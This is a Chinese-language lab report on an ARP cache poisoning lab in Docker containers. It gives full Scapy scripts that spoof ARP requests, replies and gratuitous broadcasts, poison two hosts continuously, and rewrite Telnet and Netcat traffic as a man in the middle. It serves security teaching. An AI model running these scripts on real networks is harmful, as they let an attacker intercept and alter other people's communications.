


# ARP Cache Poisoning Attack Lab

## Experimental Principle

地址解析协议 (ARP) 是一种通信协议，用于在给定 IP 地址的情况下发现链路层地址，例如 MAC 地址。ARP 协议是一个非常简单的协议，它没有实施任何安全措施。ARP 缓存中毒攻击是针对 ARP 协议的常见攻击。使用这种攻击，攻击者可以欺骗受害者接受伪造的 IP 到 MAC 映射。这可能会导致受害者的数据包被重定向到具有伪造 MAC 地址的计算机，从而导致潜在的中间人攻击。本实验的目的是获得有关 ARP 缓存中毒攻击的第一手经验，并了解此类攻击可能造成的损害。我们将使用 ARP 攻击发起中间人攻击，攻击者可以拦截和修改两个受害者 A 和 B 之间的数据包。本实验的另一个目的是练习数据包嗅探和欺骗技能，因为这些是网络安全中必不可少的技能，它们是许多网络攻击和防御工具的构建块。我们将使用 Scapy 执行实验室任务。

## Environment Setup using Container

本次实验采用`docker-compose`配置文件搭建了一个具有 $3$ 台容器的网络，如图：


首先，进入 `Labsetup` 文件夹，构建并启动容器，同时使其后台运行：


为了方便观察，我们打开三个终端并分别进入容器：




```bash
docker exec -it M-10.9.0.105-arp /bin/bash
docker exec -it A-10.9.0.5-arp /bin/bash
docker exec -it B-10.9.0.6-arp /bin/bash
```

---


## Task1: ARP Cache Poisoning

### Task1. A: using ARP request

在主机 M 上，构建一个 ARP 请求数据包，将 B 的 ip 地址映射到 M 的 mac 地址。将数据包发送给 A，并检查攻击是否成功。

我们先试用 `ifconfig` 命令查看一下三台容器的 *ip* 和 *mac* 地址。


得到结果如下：

| 设备名称 | IP地址     | MAC地址           |
| -------- | ---------- | ----------------- |
| hostM    | 10.9.0.105 | 02:42:0a:09:00:69 |
| hostA    | 10.9.0.5   | 02:42:0a:09:00:05 |
| hostB    | 10.9.0.6   | 02:42:0a:09:00:06 |

编写 `arp.py`：

```python
#!/usr/bin/python3 
from scapy.all import ARP, send
import time

def arp_spoof_with_request(target_ip, target_mac, spoof_ip, spoof_mac, interval=2):
    """
    使用ARP请求 (op=1) 实现ARP欺骗，伪装目标IP地址的MAC地址。
    
    参数：
    - target_ip: 欺骗目标的IP地址（发送ARP请求给该IP）
    - target_mac: 欺骗目标的MAC地址
    - spoof_ip: 欺骗的IP地址，即伪装成的IP
    - spoof_mac: 欺骗的MAC地址，即伪装成的MAC地址
    - interval: 发送ARP包的时间间隔（秒），默认每2秒发送一次
    """
    # 构建ARP请求包
    arp_request = ARP(op=1,             # op=1 表示ARP请求
                      pdst=target_ip,    # 目标IP地址
                      hwdst=target_mac,  # 目标MAC地址
                      psrc=spoof_ip,     # 欺骗的源IP地址（伪装成此IP）
                      hwsrc=spoof_mac)   # 欺骗的源MAC地址（伪装成此MAC）

    print(f"开始ARP欺骗（请求方式）：将 {spoof_ip} 伪装成 {spoof_mac} 发送给 {target_ip}")
    
    try:
        # 持续发送ARP请求包，以保持欺骗效果
        while True:
            send(arp_request, verbose=False)
            print(f"已发送ARP欺骗请求包：{spoof_ip} -> {spoof_mac} 发送给 {target_ip}")
            time.sleep(interval)
    except KeyboardInterrupt:
        print("ARP欺骗已停止")

# 示例参数配置
target_ip = "10.9.0.5"        # 目标主机的IP地址
target_mac = "02:42:0a:09:00:05"  # 目标主机的MAC地址
spoof_ip = "10.9.0.6"         # 欺骗的IP地址，即伪装成此IP
spoof_mac = "02:42:0a:09:00:69"   # 欺骗的MAC地址，即伪装成此MAC

# 启动ARP欺骗
arp_spoof_with_request(target_ip, target_mac, spoof_ip, spoof_mac)


```

为了保证欺骗的持续性，我们每 $2s$ 发送一次欺骗请求包。

在 $hostM$ 上发送 `arp.py`：


在 $hostA$ 上查看 ARP 缓存：


 可以看到 $hostB$ 的 IP 地址已经和 $hostM$ 的 MAC 地址绑定起来了，欺骗成功。

我们再使用 `wireshark` 进行抓包：


可以看出 $hostM$ 伪装 $hostB$ 的 IP 地址，向 $hostA$ 询问“谁是10.9.0.5”，$hostA$ 会将 $hostB$ 的 IP 地址 $10.9.0.6$ 与欺骗的 $hostM$ 的 MAC 地址绑定并保存进 ARP 缓存表中。

---


### Task1. B: using ARP reply

这次我们使用ARP 回复数据包，来进行欺骗。

编写 `arp-reply.py` :

```python
#!/usr/bin/python3 
from scapy.all import ARP, send
import time

def arp_spoof_with_reply(target_ip, target_mac, spoof_ip, spoof_mac, interval=2):
    """
    使用ARP回复 (op=2) 实现ARP欺骗，伪装目标IP地址的MAC地址。
    
    参数：
    - target_ip: 欺骗目标的IP地址（发送ARP请求给该IP）
    - target_mac: 欺骗目标的MAC地址
    - spoof_ip: 欺骗的IP地址，即伪装成的IP
    - spoof_mac: 欺骗的MAC地址，即伪装成的MAC地址
    - interval: 发送ARP包的时间间隔（秒），默认每2秒发送一次
    """
    # 构建ARP请求包
    arp_request = ARP(op=2,             # op=2 表示ARP回复
                      pdst=target_ip,    # 目标IP地址
                      hwdst=target_mac,  # 目标MAC地址
                      psrc=spoof_ip,     # 欺骗的源IP地址（伪装成此IP）
                      hwsrc=spoof_mac)   # 欺骗的源MAC地址（伪装成此MAC）

    print(f"开始ARP欺骗（回复方式）：将 {spoof_ip} 伪装成 {spoof_mac} 发送给 {target_ip}")
    
    try:
        # 持续发送ARP请求包，以保持欺骗效果
        while True:
            send(arp_request, verbose=False)
            print(f"已发送ARP欺骗请求包：{spoof_ip} -> {spoof_mac} 发送给 {target_ip}")
            time.sleep(interval)
    except KeyboardInterrupt:
        print("ARP欺骗已停止")

# 示例参数配置
target_ip = "10.9.0.5"        # 目标主机的IP地址
target_mac = "02:42:0a:09:00:05"  # 目标主机的MAC地址
spoof_ip = "10.9.0.6"         # 欺骗的IP地址，即伪装成此IP
spoof_mac = "02:42:0a:09:00:69"   # 欺骗的MAC地址，即伪装成此MAC

# 启动ARP欺骗
arp_spoof_with_reply(target_ip, target_mac, spoof_ip, spoof_mac)


```

可以看到和请求方式的代码没什么区别，只是把`op = 1`，改成了`op = 2`而已。

> 场景 1：B 的 IP 已在 A 的缓存中


可以看到开始时，$hostA$ 的 ARP 缓存表中有 $hostB$ 正确的 IP-MAC 对应关系。

接下来我们在 $hostM$ 上运行 `arp-reply.py`：


在 $hostA$ 上查看 ARP 缓存：


可以看到 $10.9.0.6$ 的 MAC 地址已经被覆盖为了 $hostM$ 的 MAC 地址。

我们再使用 `wireshark` 进行抓包：


可以看出 $hostM$ 伪装 $hostB$ 的 IP 地址，向 $hostA$ 回复“10.9.0.6 的 MAC 地址是 02:42:0a:09:00:69”，$hostA$ 更新 ARP 缓存表并覆盖原本的那条。

> 场景 2：B 的 IP 不在 A 的缓存中

我们清空 $hostA$ 的 ARP 缓存表：


接下来我们在 $hostM$ 上运行 `arp-reply.py`：


在 $hostA$ 上查看 ARP 缓存：



可以看见并没有添加 $hostB$ 的条目，可见在 linux 默认情况下， reply 消息只能更新内容，却不能新建。

---


### Task 1.C: using ARP gratuitous message

ARP 免费数据包是一种特殊的 ARP 请求数据包。当主机需要更新所有其他机器的 ARP 缓存中的过时信息时，就会使用它。免费 ARP 数据包具有以下特点：

- 源和目标 IP 地址相同，它们是发出免费 ARP 的主机的 IP 地址。
- ARP 报头和以太网报头中的目标 MAC 地址都是广播 MAC 地址（ff:ff:ff:ff:ff:ff）。
- 不期望回复。

我们编写 `arp-free.py`，只需对上面的代码稍加修改。

将源 IP 和目标 IP 改为 $hostB$ 的 IP，目标MAC 地址改为广播地址。

```python
#!/usr/bin/python3 
from scapy.all import ARP, send
import time

def arp_spoof_with_free(target_ip, target_mac, spoof_ip, spoof_mac, interval=2):
    """
    使用ARP免费数据包实现ARP欺骗。
    
    参数：
    - target_ip: 欺骗目标的IP地址（发送ARP请求给该IP）
    - target_mac: 欺骗目标的MAC地址
    - spoof_ip: 欺骗的IP地址，即伪装成的IP
    - spoof_mac: 欺骗的MAC地址，即伪装成的MAC地址
    - interval: 发送ARP包的时间间隔（秒），默认每2秒发送一次
    """
    # 构建ARP请求包
    arp_request = ARP(op=1,             # op=1 表示ARP请求
                      pdst=target_ip,    # 目标IP地址
                      hwdst=target_mac,  # 目标MAC地址
                      psrc=spoof_ip,     # 欺骗的源IP地址（伪装成此IP）
                      hwsrc=spoof_mac)   # 欺骗的源MAC地址（伪装成此MAC）
    
    print(f"开始ARP欺骗（免费数据包方式）：将 {spoof_ip} 伪装成 {spoof_mac} 发向 {target_mac}")
    
 
    try:
        # 持续发送ARP请求包，以保持欺骗效果
        while True:
            send(arp_request, verbose=False)
            print(f"已发送ARP免费数据包：{spoof_ip} -> {spoof_mac} to {target_mac}")
            time.sleep(interval)
    except KeyboardInterrupt:
        print("ARP欺骗已停止")

# 示例参数配置
target_ip = "10.9.0.6"        # 目标主机的IP地址
target_mac = "ff:ff:ff:ff:ff:ff"  # 目标主机的MAC地址
spoof_ip = "10.9.0.6"         # 欺骗的IP地址，即伪装成此IP
spoof_mac = "02:42:0a:09:00:69"   # 欺骗的MAC地址，即伪装成此MAC

# 启动ARP欺骗
arp_spoof_with_free(target_ip, target_mac, spoof_ip, spoof_mac)

```

重复以上场景：

>场景 1：B 的 IP 已在 A 的缓存中


如图，$hostA$ 的 ARP 缓存中已有正确的 $hostB$。

接下来我们在 $hostM$ 上运行`arp-free.py`：


在 $hostA$ 上查看 ARP 缓存：


可以看到并没有更新，和预期结果不符。

于是我们用 `wireshark` 抓包分析一下问题：


可以看到免费 ARP 包并没有广播出去，而是进行了单播。

经过查找资料找到了原因

- 如果在 `ARP()` 中明确指定了 `hwdst`（例如，`00:11:22:33:44:54`），`scapy` 会自动使用该地址作为以太网帧的目标地址。这是因为在网络中直接发送ARP请求时，通常期望目标设备接收，`scapy` 便推测出这是单播传输。
- 当 `hwdst` 设置为 `ff:ff:ff:ff:ff:ff` 时，`scapy` 不会自动将ARP层的广播地址应用到以太网层，因此会导致该ARP包缺乏明确的以太网广播指令，无法发送至广播地址。这时，就需要使用 `Ether()` 层指定广播地址。

于是我们对代码进行修改：

```python
#!/usr/bin/python3 
from scapy.all import ARP, Ether, sendp
import time

def arp_spoof_with_free(target_ip, spoof_ip, spoof_mac, interval=2):
    """
    使用ARP免费数据包以广播方式实现ARP欺骗。
    
    参数：
    - target_ip: 欺骗目标的IP地址（发送ARP请求给该IP）
    - spoof_ip: 欺骗的IP地址，即伪装成的IP
    - spoof_mac: 欺骗的MAC地址，即伪装成的MAC地址
    - interval: 发送ARP包的时间间隔（秒），默认每2秒发送一次
    """
    # 构建Ether层，指定广播地址
    ether = Ether(dst="ff:ff:ff:ff:ff:ff")
    
    # 构建ARP请求包
    arp_request = ARP(op=1,             # op=1 表示ARP请求
                      pdst=target_ip,    # 目标IP地址
                      hwdst=target_mac,  # 目标MAC地址
                      psrc=spoof_ip,     # 欺骗的源IP地址（伪装成此IP）
                      hwsrc=spoof_mac)   # 欺骗的源MAC地址（伪装成此MAC）
    
    # 将Ether和ARP层组合成一个广播包
    packet = ether / arp_request
    
    print(f"开始ARP欺骗（广播免费数据包方式）：将 {spoof_ip} 伪装成 {spoof_mac} 广播发送")

    try:
        # 持续发送ARP广播请求包，以保持欺骗效果
        while True:
            sendp(packet, verbose=False)
            print(f"已发送ARP广播免费数据包：{spoof_ip} -> {spoof_mac} 广播发送")
            time.sleep(interval)
    except KeyboardInterrupt:
        print("ARP欺骗已停止")

# 示例参数配置
target_ip = "10.9.0.6"         # 目标主机的IP地址
target_mac = "ff:ff:ff:ff:ff:ff"  # 目标主机的MAC地址
spoof_ip = "10.9.0.6"          # 欺骗的IP地址，即伪装成此IP
spoof_mac = "02:42:0a:09:00:69"   # 欺骗的MAC地址，即伪装成此MAC

# 启动ARP欺骗
arp_spoof_with_free(target_ip, spoof_ip, spoof_mac)

```

在 $hostM$ 上运行 `arp-free.py`：


在 $hostA$ 上查看 ARP 缓存：


可以看到欺骗成功。

使用 `wireshark` 抓包：


一切和预期结果一样。

> 场景 2：B 的 IP 不在 A 的缓存中

删除 $hostA$ ARP 缓存表中关于 $hostB$ 的条目：


在 $hostM$ 上运行`arp-free.py`：


在 $hostA$ 上查看 ARP 缓存：


可以看到并没有更新，可见在 linux 默认条件下，ARP 免费报文是不能新增表项的。

---


## Task2: MITM Attack on Telnet using ARP Cache Poisoning

主机 A 和 B 使用 Telnet 进行通信，主机 M 想要拦截它们的通信，以便可以更改 A 和 B 之间发送的数据。


首先，Telnet 是一种明文协议，通信数据（包括用户名和密码）以明文形式传输，我们可以很容易地拦截和篡改。

攻击者主机 M 的目标是成为主机 A 和 B 之间的中间人：

- 拦截 A 和 B 的 Telnet 数据包。
- 修改 A 和 B 之间发送的数据内容。

---


### Step 1. Launch the ARP cache poisoning attack

首先，主机 M 对 A 和 B 进行 ARP 缓存中毒攻击，使得在 A 的 ARP 缓存中，B 的 IP 地址映射到 M 的 MAC 地址，在 B 的 ARP 缓存中，A 的 IP 地址也映射到 M 的 MAC 地址。

编写`arp-poison.py`:

```python
#!/usr/bin/python3
from scapy.all import ARP, Ether, send
import time

def arp_spoof(target_ip, target_mac, spoof_ip, spoof_mac):
    """
    对目标主机进行 ARP 欺骗，使目标主机的 ARP 缓存中将 target_ip 映射到 spoof_mac。
    
    参数：
    - target_ip: 目标主机的 IP 地址。
    - target_mac: 目标主机的 MAC 地址。
    - spoof_ip: 欺骗的 IP 地址，即伪装成的源 IP 地址。
    - spoof_mac: 欺骗的 MAC 地址，即伪装成的源 MAC 地址。
    """
    # 构造 ARP 回复包
    arp_reply = ARP(op=2,             # op=2 表示 ARP 回复
                    psrc=spoof_ip,    # 欺骗的源 IP 地址
                    hwsrc=spoof_mac,  # 欺骗的源 MAC 地址
                    pdst=target_ip,   # 目标主机的 IP 地址
                    hwdst=target_mac) # 目标主机的 MAC 地址

    # 发送 ARP 回复包
    send(arp_reply, verbose=False)
    print(f"已发送ARP回复包：{spoof_ip} -> {spoof_mac} to {target_mac}")

def start_arp_spoofing():
    # 定义各主机的 IP 和 MAC 地址
    hostM_ip = "10.9.0.105"
    hostM_mac = "02:42:0a:09:00:69"
    hostA_ip = "10.9.0.5"
    hostA_mac = "02:42:0a:09:00:05"
    hostB_ip = "10.9.0.6"
    hostB_mac = "02:42:0a:09:00:06"

    # 启动 ARP 欺骗攻击，分别将 A 和 B 的 IP 地址映射到 M 的 MAC 地址
    print("开始 ARP 欺骗攻击，毒化 A 和 B 的 ARP 缓存...")
    
    try:
        while True:
            # 对 A 进行 ARP 欺骗，将 B 的 IP 映射到 M 的 MAC 地址
            arp_spoof(hostA_ip, hostA_mac, hostB_ip, hostM_mac)
            # 对 B 进行 ARP 欺骗，将 A 的 IP 映射到 M 的 MAC 地址
            arp_spoof(hostB_ip, hostB_mac, hostA_ip, hostM_mac)
            
            # 设置间隔时间，以便持续进行攻击
            time.sleep(2)
    except KeyboardInterrupt:
        print("\nARP 欺骗攻击已停止")

if __name__ == "__main__":
    start_arp_spoofing()

```

*hostA* 和 *hostB* 初始 ARP 缓存表状态：


*hostM* 开始欺骗攻击：


再次查看*hostA* 和 *hostB* 的 ARP 缓存表状态：


欺骗成功。

---


### Step 2 Testing

首先关闭 $hostM$ 的转发功能：


```bash
sysctl net.ipv4.ip_forward=0
```

在 *hostA* 上`ping hostB` :


发现`ping` 不通。

使用`wireshark`抓包：


可以发现一直`ping`不通的原因是发给了错误的 MAC 地址。

类似的，在 *hostB* 上 `ping hostA`：


可以发现也`ping` 不通，原因和上面是类似的。

---


### Step 3 Turn on IP forwarding

打开 $hostM$ 的转发功能：


```bash
sysctl net.ipv4.ip_forward=1
```

在 *hostA* 上`ping hostB` :


发现一段时间后`ping`通了。

观察结果我们猜测可能是 *hostM* 发回了重定向包。

看看`wireshark`的抓包结果：


可以看到是 $hostM$ 给 $hostA$ 发了重定向包更正了错误。

在 *hostB* 上`ping hostA` 的结果也类似，这里不多做赘述。

---


### Step 4 Launch the MITM attack

保持 *hostM* 开启转发功能：


然后在 $hostA$ 上`telnet hostB`并登录：


然后关闭 $hostM$ 的转发功能：


此时，在 *hostA* 中输入内容，无法显示。

编写 `mitm.py`:

```python
#!/usr/bin/env python3 

from scapy.all import *  
import re  # 导入正则表达式模块，用于字符串替换操作

# 定义主机 A 和主机 B 的 IP 和 MAC 地址
IP_A = "10.9.0.5"  # 主机 A 的 IP 地址
MAC_A = "02:42:0a:09:00:05"  # 主机 A 的 MAC 地址
IP_B = "10.9.0.6"  # 主机 B 的 IP 地址
MAC_B = "02:42:0a:09:00:06"  # 主机 B 的 MAC 地址

# 定义数据包处理函数，用于修改 TCP 数据包中的有效载荷
def spoof_pkt(pkt):
    # 检查数据包是否来自主机 A，目标是主机 B
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))  # 复制原始的 IP 层
        del(newpkt.chksum)  # 删除原 IP 校验和字段，重计算校验和
        del(newpkt[TCP].payload)  # 删除 TCP 层的有效载荷字段
        del(newpkt[TCP].chksum)  # 删除 TCP 校验和字段，重计算校验和

        # 如果数据包包含有效载荷
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load  # 获取 TCP 数据包的有效载荷
            data = data.decode()  # 将字节数据解码为字符串
            newdata = re.sub(r'[a-zA-Z]', r'Z', data)  # 使用正则表达式将字母替换为 "Z"
            print(data + " ==> " + newdata)  # 打印原数据和修改后的数据进行对比
            send(newpkt/newdata, verbose=False)  # 重新构建数据包并发送，替换有效载荷
        else:
            send(newpkt, verbose=False)  # 如果没有有效载荷，直接发送新的数据包

    # 检查数据包是否来自主机 B，目标是主机 A
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))  # 复制原始的 IP 层
        del(newpkt.chksum)  # 删除原 IP 校验和字段，重计算校验和
        del(newpkt[TCP].chksum)  # 删除 TCP 校验和字段，重计算校验和
        send(newpkt, verbose=False)  # 直接转发数据包，不修改内容

# 定义嗅探过滤器，捕获从 A 到 B 或从 B 到 A 的 TCP 数据包
f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'

# 启动嗅探器，捕获并处理数据包
print("启动嗅探并修改数据包...")
pkt = sniff(filter=f, prn=spoof_pkt)  # 过滤条件：捕获 IP 地址为 10.9.0.5 或 10.9.0.6 的 TCP 数据包，并交给 spoof_pkt 进行处理

```

在 $hostM$ 中启动`mitm.py`，同时在 $hostA$ 中输入任意字符：


此时在 $hostA$ 上：


---


## Task 3: MITM Attack on Netcat using ARP Cache Poisoning

**Netcat 是一个网络工具**，用于建立 TCP/UDP 连接，常用于调试和传输数据。

与 Telnet一样，Netcat 默认不提供加密功能，数据以明文形式传输。

攻击目标是：

- **拦截 Netcat 通信**：捕获明文传输的数据。
- **篡改通信内容**：修改主机 A 和主机 B 之间发送的消息。
- **伪造回复**：模仿其中一方，向另一方发送伪造的数据。

编写 `mitm-nc.py`：

```python
#!/usr/bin/env python3  

from scapy.all import * 
import re  # 导入 Python 的正则表达式模块，用于字符串操作

# 定义主机 A 和主机 B 的 IP 和 MAC 地址
IP_A = "10.9.0.5"  # 主机 A 的 IP 地址
MAC_A = "02:42:0a:09:00:05"  # 主机 A 的 MAC 地址
IP_B = "10.9.0.6"  # 主机 B 的 IP 地址
MAC_B = "02:42:0a:09:00:06"  # 主机 B 的 MAC 地址

# 定义数据包处理函数，用于篡改 TCP 数据包中的有效载荷
def spoof_pkt(pkt):
    # 如果数据包是从主机 A 发往主机 B
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        # 创建一个新的 IP 层，复制原始数据包的 IP 信息
        newpkt = IP(bytes(pkt[IP]))  
        del(newpkt.chksum)  # 删除原 IP 校验和字段，Scapy 会在发送时重新计算
        del(newpkt[TCP].payload)  # 删除原 TCP 层的有效载荷
        del(newpkt[TCP].chksum)  # 删除原 TCP 校验和字段，Scapy 会在发送时重新计算

        # 如果数据包有有效载荷
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load  # 获取 TCP 数据包的有效载荷（字节数据）
            newdata = data.replace(b'wangshihao', b'shihaowang')  # 将字节数据中的 "wangshihao" 替换为 "shihaowang"
            print(str(data) + " ==> " + str(newdata))  # 打印原始数据和修改后的数据，以供调试查看

            # 更新新的 IP 层的长度字段，调整为新数据的长度
            newpkt[IP].len = pkt[IP].len + len(newdata) - len(data)

            # 将修改后的数据包（新的 IP 层 + 新的有效载荷）发送出去
            send(newpkt/newdata, verbose=False)
        else:
            # 如果没有有效载荷，直接发送新的 IP 数据包
            send(newpkt, verbose=False)
    
    # 如果数据包是从主机 B 发往主机 A
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        # 创建一个新的 IP 层，复制原始数据包的 IP 信息
        newpkt = IP(bytes(pkt[IP]))  
        del(newpkt.chksum)  # 删除原 IP 校验和字段，Scapy 会在发送时重新计算
        del(newpkt[TCP].chksum)  # 删除原 TCP 校验和字段，Scapy 会在发送时重新计算
        
        # 直接转发数据包，不做修改
        send(newpkt, verbose=False)

# 设置嗅探过滤器，只捕获来自主机 A 或主机 B 的 TCP 数据包
f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'

# 启动嗅探器，捕获符合条件的数据包，并将其传递给 `spoof_pkt` 函数处理
print("启动嗅探并修改数据包...")
pkt = sniff(filter=f, prn=spoof_pkt)

```

在 $hostB$ 上开启`nc`监听，监听端口为`9090`端口：


```bash
nc -l -p 9090
```

在 $hostA$ 上连接上 $hostB$ ：


在 $hostA$ 上输入字符，此时双方能正常通信：


此时在 $hostM$ 上发动攻击，先开启 `arp-poison.py`：

可以看到双方已经无法正常通信。


查看抓包情况：


可以看到发出的消息实际上发给了 $hostM$ ，所以双方无法正常通信。

此时在 $hostM$ 上运行 `mitm-nc.py`，开始欺骗：


在 $hostA$ 上输入 `i am wangshihao` ，同时观察 $hostB$ 和 $hostM$：


可以看到在 $hostB$ 上输出了 `i am shihaowang` ，指定字符串 `wangshihao`  被成功替换，$hostM$ 这边也显示了替换记录。

---

## Summary

实验主要学习了：

- ARP 协议
- ARP 缓存中毒攻击
- 中间人攻击
- Scapy 编程


